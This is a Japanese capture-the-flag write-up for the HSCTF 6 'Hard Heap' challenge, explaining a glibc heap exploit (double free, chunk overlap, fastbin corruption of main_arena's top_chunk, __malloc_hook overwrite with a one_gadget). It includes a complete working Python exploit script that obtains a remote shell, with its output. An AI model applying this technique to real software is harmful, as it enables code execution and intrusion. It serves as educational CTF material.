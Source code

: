 # [pwn 480pts] Hard Heap - HSCTF 6
64ビットで全部有効です。
```
$ checksec -f hard-heap
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      Yes	0		2	hard-heap
```

典型的なヒープ系問題で、問題文的にTJCTFのHalcyon Heapの続きみたいです。
double freeがあるのですが、サイズは0x48までしか指定できないのでunsorted binに直接入れてlibcのアドレスを盗むことはできません。
したがって、ヒープのアドレスを取ってからoverlapさせ、別のチャンクのサイズを変更することでlibcのアドレスを取りましょう。

これで終わりかと思うと問題があり、fastbinなので`__malloc_hook`などを使う必要があります。
しかし、0x48までしか確保できないのでこれが使えません。

ここで詰まっていたのですが、writeupを読むと2つ方法があるようです。

1. main_arenaのtop_chunkを書き換える
2. unsorted bin attackで`_IO_list_all`等を書き換える

最初は2の方法で試したのですが、なぜかunsorted bin attackが上手くいかなかったので1の方法で解きました。
原理は`__malloc_hook`の時と似ていて、`main_arena`にはfastbinなどで0x55....や0x56...などから始まるヒープのアドレスがあるので、サイズ0x48のチャンクを作ることができます。
これを利用して上手いこと`top_chunk`を書き換えれば、fastbinやunsorted binが使えないチャンクをmallocしたときに`top_chunk`が使われるので任意のアドレスを書き換えることができます。

```python
from ptrlib import *

def sice_deet(size, data):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("> ")
    sock.sendline(str(size))
    sock.recvuntil("> ")
    sock.send(data)

def observe_deet(index):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("> ")
    sock.sendline(str(index))
    return sock.recvline().rstrip()

def antisice_deet(index):
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("> ")
    sock.sendline(str(index))

#sock = Process("./hard-heap")
libc = ELF("./libc.so.6")
#sock = Socket("localhost", 9999)
sock = Socket("pwn.hsctf.com", 5555)
main_arena = 0x3c4b20
delta = 0x58
one_gadget = 0xf1147

# leak heap
fake_chunk = b"A" * 0x30
fake_chunk += p64(0)
fake_chunk += p64(0x51)
sice_deet(0x48, fake_chunk) # sice:0 (0x00)
sice_deet(0x48, "1") # sice:1 (0x50)
sice_deet(0x48, "2") # 0xa0
sice_deet(0x48, "3") # 0xf0
antisice_deet(0)
antisice_deet(1)
antisice_deet(0)
addr_heap = u64(observe_deet(0)) - 0x50 # addr of sice:0
logger.info("heap = " + hex(addr_heap))
assert addr_heap > 0

# overlap & libc base
sice_deet(0x48, p64(addr_heap + 0x40)) # sice:4 = sice:0
sice_deet(0x48, "X" * 8) # sice:5
sice_deet(0x48, "AAAA") # sice:6
payload = p64(0) + p64(0xa1)
sice_deet(0x48, payload) # sice:7
antisice_deet(1)
libc_base = u64(observe_deet(1)) - main_arena - delta
logger.info("libc base = " + hex(libc_base))
addr_one_gadget = libc_base + 0x4526a

# create heap address on main_arena before top_chunk
sice_deet(0x20, "dummy") # sice:8
antisice_deet(8)

# fastbin corruption attack
sice_deet(0x48, "9") # sice:9
sice_deet(0x48, "10") # sice:10
sice_deet(0x48, "11") # sice:11
antisice_deet(10)
antisice_deet(11)
antisice_deet(10)
sice_deet(0x48, p64(libc_base + main_arena + 13)) # sice:12
sice_deet(0x48, "dummy") # sice:13
sice_deet(0x48, "dummy") # sice:14
payload = b'\x00' * 3
payload += p64((libc_base + main_arena + 0x20)) # fastbin for 0x50
payload += p64(0x51)
sice_deet(0x48, payload) # now fastbin(for 0x50) is &top_chunk (sice:15)
target = libc_base + libc.symbol("__malloc_hook") - 27 - 8
payload = p64(0) * 5
payload += p64(target)
sice_deet(0x48, payload) # top_chunk (sice:16)

# overwrite __malloc_hook
sice_deet(0x48, b'\xff' * 0x13 + p64(libc_base + one_gadget))

# get the shell!
sock.recvuntil("> ")
sock.sendline("1")
sock.recvuntil("> ")
sock.sendline("11")

sock.interactive()
```

ヒープのアドレスが0x56...から始まらないと失敗するので、3,4回動かせば当たります。
```
$ python solve.py 
[+] __init__: Successfully connected to pwn.hsctf.com:5555
[+] <module>: heap = 0x56377b3b4000
[+] <module>: libc base = 0x7f7814a07000
[ptrlib]$ cat flag
[ptrlib]$ 
hsctf{you_sice_deets_so_well_you_must_be_suchet}[ptrlib]$
```

# 感想
難しかったですが面白かったです。

# 参考文献
[1] [https://owodelta.github.io/2019/06/09/Hard-Heap-HSCTF-6/](https://owodelta.github.io/2019/06/09/Hard-Heap-HSCTF-6/)

[2] [https://github.com/thebound7/ctf_writeup/tree/master/HSCTF/hard_heap](https://github.com/thebound7/ctf_writeup/tree/master/HSCTF/hard_heap)